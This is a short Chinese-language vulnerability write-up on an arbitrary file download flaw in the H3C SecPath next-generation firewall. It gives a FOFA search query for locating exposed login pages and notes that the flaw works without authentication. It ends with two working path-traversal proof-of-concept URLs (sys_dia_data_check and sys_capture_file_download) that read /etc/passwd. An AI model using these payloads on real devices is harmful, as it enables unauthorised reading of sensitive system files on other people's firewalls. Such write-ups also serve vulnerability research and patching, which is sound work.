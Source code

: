 # H3C-SecPath-下一代防火墙--任意文件下载漏洞

## 漏洞描述

H3C SecPath 下一代防火墙  存在功能点导致任意文件下载漏洞，攻击者通过漏洞可以获取敏感信息

## 漏洞影响

> [!NOTE]
>
> H3C SecPath

## FOFA

> [!NOTE]
>
> title="Web user login"

## 漏洞复现

登录页面如下

![image-20210604115315360](H3C-SecPath-下一代防火墙--任意文件下载漏洞.assets/1627363588637558.jpg)

存在漏洞点的功能有两个

![image-20210604115351314](H3C-SecPath-下一代防火墙--任意文件下载漏洞.assets/1627363588921092.jpg)

点击下载抓包更改请求

![image-20210604115431531](H3C-SecPath-下一代防火墙--任意文件下载漏洞.assets/1627363589231147.jpg)

并且在未身份验证的情况中，也可以请求下载敏感文件

验证POC

```
/webui/?g=sys_dia_data_check&file_name=../../etc/passwd

/webui/?
g=sys_capture_file_download&name=../../../../../../../../etc/passwd 
```

​	